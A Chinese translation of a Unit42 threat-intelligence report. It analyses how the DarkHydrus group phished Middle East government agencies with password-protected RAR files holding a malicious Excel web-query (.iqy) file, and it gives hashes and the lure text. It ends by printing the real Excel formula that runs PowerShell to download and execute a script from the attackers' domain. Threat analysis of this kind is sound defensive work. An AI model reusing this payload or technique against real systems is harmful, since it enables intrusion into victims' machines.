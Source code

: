 > 原文链接: https://www.anquanke.com//post/id/154024 


# DarkHydrus针对中东政府发起攻击详情分析


                                阅读量   
                                **153002**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：paloaltonetworks.com
                                <br>原文地址：[https://researchcenter.paloaltonetworks.com/2018/07/unit42-new-threat-actor-group-darkhydrus-targets-middle-east-government/](https://researchcenter.paloaltonetworks.com/2018/07/unit42-new-threat-actor-group-darkhydrus-targets-middle-east-government/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t018dc9f4aa11e032f2.jpg)](https://p4.ssl.qhimg.com/t018dc9f4aa11e032f2.jpg)

在2018年7月， Unit42分析了针对中东政府机构的新型文件类型的攻击行为， 此次攻击由未公布的威胁组织DarkHydrus执行。基于关联分析可知，该组织自2016年初开始就使用目前的样本版本。这次攻击与先前攻击有所不同，此次钓鱼的电子邮件中附件为有密码保护的RAR压缩包，解压后可发现恶意web查询文件（.iqy）。<br>
.iqy文件是包含URL的简单文本文件，默认情况下由Excel打开。 打开后，Excel将检索文件中所有的URL对象。在以往的案例中，载体多为开源合法工具，但这些工具被搭载了恶意代码以进行恶意行为，例如Meterpreter和Cobalt Strike。该组织此次使用了基于PowerShell的自定义有效载荷，我们将之称为RogueRobin。



## 攻击方式

攻击者在7月15日到16日之间发送了鱼叉式网络钓鱼电子邮件。每封电子邮件都有一个受密码保护的RAR压缩包，名为credential.rar。 如图1所示，消息正文用阿拉伯语编写，要求收件人解压RAR压缩包并查看其中名为credential.iqy的文档，该消息同时附录了打开RAR存档所需的密码123456。<br>[![](https://p2.ssl.qhimg.com/t01a213d21faf81ca58.png)](https://p2.ssl.qhimg.com/t01a213d21faf81ca58.png)<br>
翻译这些阿拉伯文，文本含义为：<br>
你好<br>
请查看附件<br>
密码：123456



## 恶意载荷分析

恶意载荷credential.iqy的SHA256为：<br>
cc1966eff7bed11c1faada0bb0ed0c8715404abd936cfa816cef61863a0c1dd6<br>
该.iqy文件只包含以下字符串文本：<br>[http://micrrosoft.net/releasenotes.txt](http://micrrosoft.net/releasenotes.txt)<br>
Microsoft Excel打开.iqy文件后使用文件中的URL来获取要包含在电子表格中的远程数据。 默认情况下，Excel不允许从远程服务器下载数据，会通过显示对话框询问用户的同意：<br>[![](https://p4.ssl.qhimg.com/t0120dc276ad1c6c0c2.png)](https://p4.ssl.qhimg.com/t0120dc276ad1c6c0c2.png)<br>
通过启用此数据连接，用户允许Excel从.iqy文件中的URL里获取内容。<br>
releasenotes.txt文件（SHA256：bf925f340920111b385078f3785f486fff1096fd0847b993892ff1ee3580fa9d）中的内容包含以下公式，Excel将其保存到工作表中的“A0”单元格。公式为：<br>
=cmd|’ /c C:WindowsSystem32WindowsPowerShellv1.0powershell.exe -nop -exec bypass -c IEX ((New-Object Net.WebClient).DownloadString(”[http://micrrosoft.net/winupdate.ps1″))’!A0](http://micrrosoft.net/winupdate.ps1%22))'!A0)<br>